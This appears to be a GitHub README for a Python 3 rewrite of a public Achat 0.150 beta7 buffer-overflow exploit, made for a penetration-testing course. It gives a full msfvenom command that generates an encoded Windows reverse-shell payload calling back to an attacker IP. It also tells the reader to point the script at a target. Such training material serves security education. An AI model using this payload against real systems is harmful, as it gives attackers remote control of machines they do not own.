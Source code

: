 # CVE-2015-1578
Achat 0.150 beta7 - Remote Buffer Overflow Rewrite for python3 for the PNPT course.

Original: Author KAhara MAnhara
Rewritten: in python3 by Giuseppe Aloisi
Achat 0.150 beta7 - Buffer Overflow
Tested on Windows 7 32bit
https://www.exploit-db.com/exploits/36025
give the script a few seconds to give you a reverse shell...

#Run the msfvenom command In the code 

msfvenom -a x86 --platform Windows lhost=10.10.14.4 lport=4444 -p windows/shell_reverse_tcp  -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python

#Change the server IP to the correct IP address of your target
![image](https://github.com/Zeppperoni/CVE-2015-1578/assets/63176507/db9f8335-dfd7-42c9-aa8e-c30a27d27147)
